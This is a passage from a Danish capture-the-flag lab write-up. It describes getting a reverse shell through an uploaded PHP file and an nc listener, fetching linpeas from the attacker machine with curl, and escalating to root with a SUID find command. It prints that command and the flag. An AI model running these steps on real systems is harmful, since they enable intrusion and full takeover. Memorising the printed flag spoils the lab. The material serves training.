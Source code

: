 Startede derefter en nc listener på port 13337 og gik til linket http://forretningen.hkn/product-downloads/revshell.php via. min browser. Hvilket gav en rigtig shell:

![shell](shell.png)

Modificeret exploit kan findes i current directory af denne folder og hedder "exploit.py"

### Privilege escalation
Jeg ville gerne køre linpeas på serveren, men dette er ikke inkluderet til kali installationen.

At kopiere store filer som linpeas over til maskinen er ikke det nemmeste, her er min løsning på problemet:

1. Download [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20220310)
2. lav den til en tar.gz fil: ```tar -czvf linpeas.tar.gz linpeas.sh```
3. base64 encode den: ```cat linpeas.tar.gz | base64 > linpeas.b64```
4. Kopiér base64 strengen over i browser VM'en og gem den i en fil
5. base64 decode filen: ```cat linpeas.b64 | base64 -d > linpeas.tar.gz```
6. gunzip den: ```gunzip linpeas.tar.gz```

Derefter kunne jeg uploade den til serveren ved først at starte en simpel http server på min klient fra den folder jeg har linpeas.sh liggende:
```python3 -m http.server```

Derefter kunne jeg downloade den på serveren vha.
```curl http://<MinHaaukinsIP>:8000/linpeas.sh```

og køre den efter at have gjort den executable.

linpeas finder en SUID binary der hedder ```/usr/bin/find```.

Hvis vi kigger på [gtfobins](https://gtfobins.github.io/) kan vi se at vi kan eskalere vores privilegier igennem denne binary ved at køre:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

![privesc](privesc.png)

Vi har dermed root og kan printe flaget i /root/flag.txt!

```DDC{l4D_m1G_h4ck3_d3n_f0rr3tn1ng_h3h3h3h3h3h3h3}```

## Side note: Foothold part 2
Dette var min metode at få foothold på. Jeg fandt det nemmere at uploade en php fil, som jeg nemt kunne tilgå igen, hvis jeg mistede min reverse shell.

Men for folk lidt nyere til cybersikkerhed, kan det godt virke overvældende at downloade, læse og forstå en exploit, for derefter at modificere den.

```